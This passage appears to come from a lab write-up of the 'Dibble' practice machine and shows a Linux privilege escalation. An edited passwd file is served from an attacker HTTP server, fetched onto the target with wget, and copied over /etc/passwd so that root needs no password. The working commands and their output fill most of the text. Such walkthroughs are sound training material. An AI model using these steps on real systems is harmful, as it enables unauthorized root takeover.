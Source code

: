 
I then transferred the newly manipulated passwd file to the target host

Create web server
~~~shell
┌──(kali㉿kali)-[~/Desktop/Dibble]
└─$ sudo python3 -m http.server 80
[sudo] password for kali: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
~~~

Transfer the passwd file to the target host
~~~shell
sh-5.0$ wget http://192.168.45.228/passwd

--2023-10-26 09:30:57--  http://192.168.45.228/passwd
Connecting to 192.168.45.228:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1336 (1.3K) [application/octet-stream]
Saving to: ‘passwd’

passwd              100%[===================>]   1.30K  --.-KB/s    in 0s      

2023-10-26 09:30:57 (383 MB/s) - ‘passwd’ saved [1336/1336]
~~~

Lastly I used the 'cp' binary to replace the existing /etc/passwd with our malicious passwd file

~~~shell
sh-5.0$ cp passwd /etc/passwd
~~~

Finally we can elevate privileges to root (it will no longer prompt for a password for root as we have removed the 'x' parameter in the /etc/passwd file)

![Dibble](/assets/img/DibblePG(13).png)